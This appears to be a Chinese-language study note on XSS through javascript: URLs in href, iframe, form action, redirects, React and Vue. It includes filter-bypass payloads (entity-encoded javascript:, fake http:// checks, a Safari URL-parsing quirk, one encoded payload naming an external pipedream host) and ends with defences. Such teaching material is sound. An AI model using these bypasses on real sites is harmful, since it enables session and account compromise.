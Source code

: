 ### where
1. href:  `<a href=javascript:alert(1)>Link</a>`  
2. iframe: `<iframe src=javascript:alert(1)></iframe>` 
3. form的action
```html
<form action=javascript:alert(1)>  
<button>submit</button>  
</form>
```
5. button的formaction
```html
<form id=f2>  
</form>  
<button form=f2 formaction=javascript:alert(2)>submit</button>
```
6. windows.location 
```html
window.location = 'javascript:alert(1)'
```

#### 例子1:插入youtube视频
如果網站上有個功能可以讓使用者在發文時填入 YouTube 影片網址，並且在文章中自動嵌入
```html
<iframe src="<?= $youtube_url ?>" width="500" height="300">
</iframe>
```
1. `javascript:alert(1);`
2. 绕过对youtube.com的检查：`javascript:alert(1);console.log('youtube.com')`
3. 防御：正確方式是檢查網址是否為 YouTube 影片的格式，並且要確保網址是以 `https://` 開頭

#### 例子2:profile 頁面填入自己的 blog  

![](media/Pasted%20image%2020231025155828.png)  

后端代码
```php
<a href="<?php echo htmlspecialchars($data) ?>">link</a>`
```
儘管把 `<>";` 都做了編碼，沒辦法新增標籤，也沒辦法跳脫雙引號新增屬性，但攻擊者依舊可以插入 `javascript:alert(1)`，因為這裡面完全沒有任何不合法的字元。

#### 例3：
`<a href="<?php echo htmlspecialchars($data) ?>">link</a>`

payload:
`data=javascript:alert(1)`
![](media/Pasted%20image%2020231103103012.png)  

#### React
現在的前端框架基本上都會自動幫你做好跳脫，沒有在 React 裡面使用 `dangerouslySetInnerHTML` 或是在 Vue 裡面使用 `v-html` 的話，基本上都是沒什麼問題的，但是 `href` 就不同了，理由同上，它的內容是沒問題的。

```react
import React from 'react';

export function App(props) {
  // 假設底下的資料是來自於使用者
  const href = 'javascript:alert(1)'
  return (
    <a href={href}>click me</a>
  );
}
```
\ React 在 v16.9 的時候有針對這個行為新增警告，在文件裡面也有說明：[Deprecating javascript: URLs](https://legacy.reactjs.org/blog/2019/08/08/react-v16.9.0.html#deprecating-javascript-urls)，警告的內容是：

> Warning: A future version of React will block javascript: URLs as a security precaution. Use event handlers instead if you can. If you need to generate unsafe HTML try using dangerouslySetInnerHTML instead.

在 React GitHub 的 issue 裡面也有更多的討論：

1. [React@16.9 block javascript:void(0); #16592](https://github.com/facebook/react/issues/16592)
2. [False-positive security precaution warning (javascript: URLs) #16382](https://github.com/facebook/react/issues/16382)
#### Vue
```vue
<script setup>
import { ref } from 'vue'

const link = ref('javascript:alert(1)')
</script>

<template>
  <a :href="link">click me</a>
</template>
```
 [URL Injection](https://vuejs.org/guide/best-practices/security.html#potential-dangers)
 
如果要在前端處理的話，有提到可以用 [sanitize-url](https://github.com/braintree/sanitize-url) 這一套 library。

### 页面跳转
```html
const searchParams = new URLSearchParams(location.search)
window.location = searchParams.get('redirect')
```
payload:
```
window.location = 'javascript:alert(document.domain)'
```

#### 例子：
![](media/Pasted%20image%2020231025161411.png)
点击登录后会调用`redirectToTarget` 的 function：
```Javascript
/**
 * Redirect to "?target=" or fallback URL with page reload.
 *
 * (works on CSR)
 */
export const redirectToTarget = ({
  fallback = 'current',
}: {
  fallback?: 'homepage' | 'current'
} = {}) => {
  const fallbackTarget =
    fallback === 'homepage'
      ? `/` // FIXME: to purge cache
      : window.location.href
  const target = getTarget() || fallbackTarget

  window.location.href = decodeURIComponent(target)
}
```
在拿到 target 之後直接使用了：`window.location.href = decodeURIComponent(target)` 來做重新導向。而 `getTarget` 其實就是去 query string 把 target 的值拿出來。所以如果登入的網址是：`https://matters.news/login?target=javascript:alert(1)`，在使用者按下登入並且成功之後，就會跳出一個 alert，觸發 XSS！
### `javascript`过滤
HTML 裡面的屬性內容是可以經過編碼的
`<a href="&#106avascript&colon;alert(1)">click me</a>`
`<a href=&#74;&#97;&#118;&#97;&#83;&#99;&#114;&#105;&#112;&#116;:alert(1)>clickme</a>`

### `http://`验证
`javascript:alert(http://)`

```javascript
javascript:alert@github.com/#://

编码：
javascript:alert%28%27Slonser%20was%20here%21%27%29%3B%2F%2F@github.com#;alert(10);://eow5kas78d0wlv0.m.pipedream.net%27
```
[tg xss](https://habr.com/ru/articles/744316/)
### 防御
1. 使用[sanitize-url](https://github.com/braintree/sanitize-url)
2. 只允許 `http://` 跟 `https://` 開頭的字串
3. 利用 JavaScript 去解析 URL,根据 protocol 判斷是否為合法的協議，來阻擋名單之外的內容
```javascript
console.log(new URL('javascript:alert(1)'))
/*
  {
    // ...
    href: "javascript:alert(1)",
    origin: "null",
    pathname: "alert(1)",
    protocol: "javascript:",
  }
*/
```
4. `target="_blank"`   在Chrome 当你点了连结时，会新开一个网址为的`about:blank#blocked`分页，在Firefox 会新开一个没有网址的分页，在Safari 则是什么事情都不会发生，在这三个桌面浏览器上都不会执行JavaScript。
5. [正则表达过滤](https://github.com/facebook/react/blob/v18.2.0/packages/react-dom/src/shared/sanitizeURL.js#L22)


### 补充
而有个常见的错误判断方式一样会利用URL 来解析，但却是看hostname 或是origin 等等：
```javascript
console.log(new URL('javascript:alert(1)'))
/* 
	{ 
		// ... 
		hostname: "", 
		host: "", 
		origin: null 
		} 
	*/
```

当`hostname`或是`host`为空的时候，就代表是不合法的网址。这样的方式虽然乍看之下没问题，但我们可以利用`//`在JavaScript 中是注解的特性，搭配换行字元来做出一个看起来像网址，但其实是javascript: 伪协议的字串：
```javascript
console.log(new URL('javascript://huli.tw/%0aalert(1)')) 
/* 
	{ 
		// ... 
		hostname: "", 
		host: "", 
		origin: null 
		} 
	*/
```
虽然看起来很像网址，但是在Chrome 上面没有问题，不会误判，可是Safari 就不同了，同样的程式码在Safari 16.3 上面执行，输出结果是：

```js
console.log(new URL('javascript://huli.tw/%0aalert(1)'))
/*
  {
    // ...
    hostname: "huli.tw",
    host: "huli.tw",
    origin: "null"
  }
*/
```


### 链接

[The curious case of XSS and the mouse middle button.](http://blog.dclabs.com.br/2021/05/the-curious-case-of-xss-and-mouse.html)
[Anchor Tag XSS Exploitation in Firefox with Target=”_blank”](https://soroush.me/blog/2023/08/anchor-tag-xss-exploitation-in-firefox-with-target_blank/)